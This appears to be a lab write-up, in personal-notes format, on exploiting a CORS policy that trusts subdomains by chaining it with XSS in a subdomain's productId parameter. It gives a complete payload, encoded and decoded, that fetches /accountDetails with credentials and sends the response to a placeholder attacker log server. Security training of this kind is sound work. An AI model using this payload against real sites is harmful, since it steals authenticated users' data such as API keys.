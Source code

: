 In an example, an API key may appear in the account page via an AJAX request to `/accountDetails` with the response containing the ACAC header. Try adding the Origin header with a subdomain value:

![[Subdomain.png]]

If origin is reflected in ACAO header, it confirms CORS allows access from subdomains via both HTTPS and HTTP (if subdomain is HTTP). Look for any other functionality on the site like a stock checker or for anything that may be using HTTP and vulnerable to XSS such as a productID parameter:

![[Stock Subdomain.png]]

If the subdomain contains an XSS vulnerability, you can inject a script that will submit a request to the main application and send the response to the attacker’s server. This will work since the subdomain is allowed to view the authenticated responses from the main application:

![[XSS Stock.png]]

When the XSS script executes, the Origin header's value will be **subdomain.vulnerable-app.com** (reason why is because the XSS script is essentially a part of the application now). This allows the response to contain the authenticated data. The attacker now needs to trick the victim user into visiting their website, while they are authenticated to the vulnerable application.

>[!info]
>Make sure to set the file extension to .html or no extension also work in Exploit Server labs.

Make sure to encode the angle brackets \<> in the payload within the document.location to prevent breaking the payload. This payload is the exact same as the Basic Origin Reflection, except the payload is injected in the XSS vulnerable parameter of the Subdomain.

![[Final Payload.png]]

```html
<html>
<script>
    document.location="http://SUBDOMAIN.VULNERABLE-APPLICATION.com/?productId=4%3cscript%3e var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://VULNERABLE-APPLICATION.com/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://ATTACKERS-SERVER-LOG-LOCATION.net/log?key='%2bthis.responseText; };%3c/script%3e&storeId=1"
</script>
</html>
```

The decoded version being:

```html
<html>
<script>
   document.location="http://SUBDOMAIN.VULNERABLE-APPLICATION.com/?productId=4
      <script> 
         var req = new XMLHttpRequest(); 
         req.onload = reqListener;
         req.open('get','https://VULNERABLE-APPLICATION.com/accountDetails',true); 
         req.withCredentials = true; 
         req.send();
         function reqListener() {
            location='https://ATTACKERS-SERVER-LOG-LOCATION.net/log?key='+this.responseText; 
      };</script>&storeId=1"
</script>
</html>
```
